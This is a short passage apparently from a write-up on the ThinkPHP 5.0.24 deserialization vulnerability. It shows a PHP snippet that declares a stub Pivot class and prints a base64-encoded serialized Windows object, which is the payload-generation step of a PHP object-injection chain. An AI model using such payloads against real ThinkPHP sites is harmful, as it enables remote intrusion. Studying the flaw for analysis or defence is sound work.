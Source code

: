    namespace think\model;
    use think\Model;
    class Pivot extends Model{


    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

![](./resource/Thinkphp5.0.24反序列化漏洞/media/rId29.jpg)
